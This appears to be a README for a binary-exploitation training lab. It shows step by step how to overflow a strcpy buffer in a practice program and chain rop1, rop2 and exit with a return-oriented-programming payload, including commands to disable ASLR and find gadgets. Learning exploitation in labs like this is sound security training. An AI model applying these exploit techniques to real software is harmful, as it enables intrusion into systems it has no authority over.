

# ROP

## Requirements

- pwntools

    ```bash
    sudo apt-get update
    sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
    sudo apt-get install python3-pwntools
    ```

- pwndbg

    ```bash
    git clone https://github.com/pwndbg/pwndbg
    cd pwndbg
    ./setup.sh
    ```

- Disable ASLR

    ```bash
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    ```

### x64?

- In case you are running a x64 OS, you will need 32-bit development headers and libraries

    ```bash
    sudo apt-get install gcc-multilib
    ```


## Basic binary inspection

```bash
gdb ./rop
 
info functions # Look for functions (main / vulnerable / rop1 rop2)

disassemble vulnerable # It includes a call to strcpy function (bof)

disassemble rop1 # Executes the Put function (Print a String through the stdout)

disassemble rop2 # The functions has one parameter (ebp+0x8) and calls Printf funct
```


# Break the code!

```bash
gdb ./rop
run $(python3 -c 'from pwn import *; print(cyclic(500))')
cyclic -l 0x61646261 #110
run $(python3 -c 'from pwn import *; import sys; print("A"*112 + "B"*4)')
```

> offset 110!

## ROP Exploitation

Leveraging ROP, we will alter the program flow by chaining the following function calls `ROP1 -> ROP2 -> EXIT`

1. Write down the memory addresses of the functions

```bash
gdb ./rop1
b main
run

p rop1  # 0x8049186
p rop2  # 0x80491b1
p exit  # 0xf7da6ad0
```


2. Fill in the exploit template [exploit_template.py](./exploit_template.py)

```python
...
rop1 = 0x8049186
rop2 = 0x80491b1
exit_dir = 0xf7da6ad0
...
```

3. Now we chained the execution from `vulnerable` to `rop1`. Take a look at the [exploit_template.py](./exploit_template.py) and run the binary with the exploit

```bash
./rop $(python3 exploit.py)
```



> As expected, the program ends with a segmentation fault due to a breakage in the ROP Chain

Let's chain rop2, passing the variable `0xdeadead` :)


4. Look for a gadget to `pop` the parameter we will pass in `rop2` and chain the execution flow to the `exit` function

> pop %X; ret

```bash
break main
run
rop --grep 'pop' # pop ebx; ret
```
> Gadget -> @0x804901e


5. Fill in the gadget address in the template [exploit_template.py](./exploit_template.py)

```python
...
pop_ret = 0x804901e
...
```

6. Uncomment the second part of the chain to include the rop2 call

```python
# Address of rop2(), address of pop ret and an argument for rop2()
payload += struct.pack("I", rop2)
payload += struct.pack("I", pop_ret)
payload += struct.pack("I", 0xdeaddead)
```

As you can see, now both function calls are chained, but it still throughs a segmentation fault...


7. Now, we will chain the exit call to finish the program gracefully. Uncomment the final call

```python
# exit
payload += struct.pack("I", exit_dir)
```

> Fixed! The programs ends gracefully :)

## References

This lab is a simplified version of the one on ired.team. Refer to the official guide to better understand the caveats involved in ROP chaining
* https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming
